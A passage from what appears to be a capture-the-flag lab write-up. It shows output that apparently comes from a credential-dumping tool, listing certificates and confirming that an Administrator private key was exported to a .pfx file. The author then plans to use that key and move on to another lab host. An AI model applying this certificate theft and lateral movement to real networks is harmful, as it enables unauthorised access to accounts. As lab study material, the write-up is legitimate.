    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 7/30/2020 11:37:16 PM -> 7/30/2022 11:47:16 PM
    UPN      : Administrator@cyber.local
    Hash SHA1: 43ecc04d4ed3a29eaef386c14c6b650dcd4e1bd8
    Key Container  : {DA741C00-D67C-4192-94FA-BE918D50DBDD}
    Provider       : Microsoft Enhanced Cryptographic Provider v1.0
    Provider type  : RSA_FULL (1)
    Type           : AT_KEYEXCHANGE (0x00000001)
    |Provider name : Microsoft Enhanced Cryptographic Provider v1.0
    |Key Container : {DA741C00-D67C-4192-94FA-BE918D50DBDD}
    |Unique name   : 276c545c355785e938e6139f9f01a2e1_6768f824-bc10-45f1-826b-27a36084b0a8
    |Implementation: CRYPT_IMPL_SOFTWARE ;
    Algorithm      : CALG_RSA_KEYX
    Key size       : 2048 (0x00000800)
    Key permissions: 0000003f ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_EXPORT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
    Exportable key : YES
    Public export  : OK - 'CURRENT_USER_my_1_.der'
    Private export : OK - 'CURRENT_USER_my_1_.pfx'

 2. inception2
    Subject  : C=US, S=HTB, L=HTB, O=HTB, E=opnsense@cybernetics.local, CN=inception2
    Issuer   : C=US, S=HTB, L=HTB, O=HTB, E=opnsense@cybernetics.local, CN=inception2
    Serial   : 00
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 1/27/2022 3:45:21 PM -> 1/3/2122 3:45:21 PM
    Hash SHA1: 388f747d6f5c6159f34f79b6d7550a045a9aed02
    Public export  : OK - 'CURRENT_USER_my_2_inception2.der'
```

The certificate I want is the id=0:



Will download them locally and now using the pfx should be fine?



Now as you see we have the right subject, we hold a valid privatekey, and it is issued by inception domain.



Also the thumbprint matches!



I feel this is over on this machine and I can move forward to **inwkt002.inception.local.**

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;